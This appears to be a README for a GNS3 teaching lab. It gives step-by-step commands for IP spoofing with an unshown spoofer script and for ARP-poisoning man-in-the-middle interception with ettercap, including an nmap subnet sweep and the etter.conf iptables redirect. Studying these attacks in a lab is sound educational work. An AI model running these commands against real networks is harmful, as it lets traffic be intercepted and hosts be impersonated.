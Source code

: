 # IP SPOOFING

**IP spoofing** is the creation of *Internet Protocol (IP)* packets which have a modified source address in order to either hide the identity of the sender, to impersonate another computer system, or both. It is a technique often used by bad actors to invoke **DDoS attacks** against a target device or the surrounding infrastructure.

Sending and receiving IP packets is a primary way in which networked computers and other devices communicate, and constitutes the basis of the modern internet. All IP packets contain a header which precedes the body of the packet and contains important routing information, including the source address. In a normal packet, the source IP address is the address of the sender of the packet. If the packet has been spoofed, the source address will be forged.

## IP Spoofing example
### Settings:
 * **Attacker:** debian machine
 * **Victim:** ubuntu-1 host machine
 * **Router:** cisco-7200 image (R1 machine)
 * **Switch:** cisco-3745 image (SW1 machine)
 * **Other actors:** ubuntu-2 host machine

### Steps:
* Run the GNS3 lab
* Connect to **R1** and check the current IP/MAC assignment using the followng command

        show ip arp        
* Connect to the **attacker machine**
* Execute `nmap` command in order to scan all the network 

        sudo nmap -sPn 10.0.0.0/24
* Choose the IP and MAC address of the machine you want to attack (we will choose the ip addres of the **ubuntu-1 host** for simplicity)
* Execute the `ip_spoofer.py` script as superuser

        sudo python3 ip_spoofer.py <Victim_MAC_ADDRESS> <Victim_IP_ADDRESS>
* Connect again to **R1** and check the current IP/MAC assignment using the followng command

        show ip arp
* The pair `<ip,mac>` related to the ip address of our **Victim** has been changed
* Connect to another **ubuntu host machine** (ubuntu-2, for example) and run the following command

        ping <Victim_IP_ADDRESS>
* Execute **Wireshark** on the link which connects the **Victim** machine to the **Switch (SW1)**
    * Check if the **Victim** is receiving new **icmp** requests
* Execute **Wireshark** on the link which connects the **Attacker** machine to the **Switch (SW1)**
    * Check if the **Attacker** is receiving new **icmp** requests


# ARP Poisoning Attack using Ettercap

An **ARP spoofing**, also known as **ARP poisoning**, is a Man in the Middle _**(MitM)**_ attack that allows attackers to intercept communication between network devices.

## ARP Poisoning example with Ettercap
### Settings:
 * **Attacker:** debian machine
 * **Victim:** ubuntu-1 host machine
 * **Router:** cisco-7200 image (R1 machine)
 * **Switch:** cisco-3745 image (SW1 machine)
 * **Other actors:** ubuntu-2 host machine

### Steps:
* Run the GNS3 lab
* Connect to **R1** and check the current IP/MAC assignment using the followng command

        show ip arp        
* Connect to the **attacker machine**
* Install **ettercap**

        sudo apt update
        sudo apt install ettercap-text-only
* Edit the file `/etc/ettercap/etter.conf`

        sudo pico /etc/ettercap/etter.conf
* Uncomment the following line by removing the `#` at the beginning of the string

  * Before:

        #redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
  * After:

        redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
* Execute `ettercap` command in order to scan all the network 
  * `-T:` **select the text only GUI**

        sudo ettercap -T
  * Press `spacebar` to enable/disable packets view
  * Press `l` (lowercase `L`) to show information about discovered devices in the network
* Choose the IP and MAC address of the machine you want to attack (we will choose the ip addres of the **ubuntu-1 host** for simplicity)
* Stop `ettercap` pressing `q` 
* Run (again) `ettercap` in order to start with the **MITM** attack based on ARP Poisoning
  * `-M:` perform a mitm attack. Requires an additional argument useful to specify the **attack type**
  * `<ATTACK_TYPE>:` **ARP**, DHCP, ICMP, etc (see `man ettercap`) 
  * `<VICTIM_TARGET>:` is in the form `MAC/IPs/IPv6/PORTs`. If you want you can omit any of its parts and this will represent an ANY in that part, e.g.,
    
    `/10.0.0.5//` means **ANY mac address**, **ONLY ip 10.0.0.1**, **ANY IPv6** and **ANY port**

        sudo ettercap -T -M <ATTACK_TYPE> <VICTIM_TARGET>

* Connect again to **R1** and check the current IP/MAC assignment using the followng command

        show ip arp
* The pair `<ip,mac>` related to the ip address of our **Victim** has been changed
* Connect to another **ubuntu host machine** (ubuntu-2, for example) and run the following command

        ping <Victim_IP_ADDRESS>
* Execute **Wireshark** on the link which connects the **Victim** machine to the **Switch (SW1)**
    * Check if the **Victim** is receiving new **icmp** requests
* Execute **Wireshark** on the link which connects the **Attacker** machine to the **Switch (SW1)**
    * Check if the **Attacker** is receiving new **icmp** requests
  